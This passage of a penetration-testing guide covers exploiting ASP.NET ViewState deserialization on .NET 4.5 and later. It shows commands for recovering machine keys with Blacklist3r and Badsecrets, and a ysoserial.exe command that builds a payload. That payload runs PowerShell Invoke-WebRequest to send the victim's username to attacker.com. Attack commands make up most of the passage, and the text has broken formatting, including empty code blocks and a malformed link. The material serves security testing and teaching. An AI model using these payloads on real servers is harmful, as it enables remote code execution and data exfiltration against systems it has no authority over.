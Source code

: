 ```
Therefore if the attackers find a way to get the Machinekey via another vuln like file traversal, [[https://github.com/pwntester/ysoserial.net|**YSoSerial.Net**]] command used in the **Case 2**, can be used to perform RCE using ViewState deserialization vulnerability.

- Remove `__VIEWSTATEENCRYPTED` parameter from the request in order to exploit the ViewState deserialization vulnerability, else it will return a Viewstate MAC validation error and exploit will fail.

### Test Case: 4 – .Net >= 4.5 and EnableViewStateMac=true/false and ViewStateEncryptionMode=true/false except both attribute to false

We can force the usage of ASP.NET framework by specifying the below parameter inside the web.config file as shown below.

```xml

```
```
Alternatively, this can be done by specifying the below option inside the `machineKey` paramter of web.config file.

```bash
compatibilityMode="Framework45"
```
```
As in the previous the **value is encrypted.** Then, to send a **valid payload the attacker need the key**.

You can try to use [[https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper|**Blacklist3r(AspDotNetWrapper.exe)** ]]to find the key being used:

```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata bcZW2sn9CbYxU47LwhBs1fyLvTQu6BktfcwTicOfagaKXho90yGLlA0HrdGOH6x/SUsjRGY0CCpvgM2uR3ba1s6humGhHFyr/gz+EP0fbrlBEAFOrq5S8vMknE/ZQ/8NNyWLwg== --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --IISDirPath "/" --TargetPagePath "/Content/default.aspx"

--encrypteddata = {__VIEWSTATE parameter value}
--IISDirPath = {Directory path of website in IIS}
--TargetPagePath = {Target page path in application}
```
```
For a more detailed description for IISDirPath and TargetPagePath [[https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/|refer here]]

Or, with [[https://github.com/blacklanternsecurity/badsecrets) (with a generator value|**Badsecrets**]]:

```bash
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```
```
![[https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png|https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png]]

Once a valid Machine key is identified, **the next step is to generate a serialized payload using** [[https://github.com/pwntester/ysoserial.net|**YSoSerial.Net**]]

```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```
```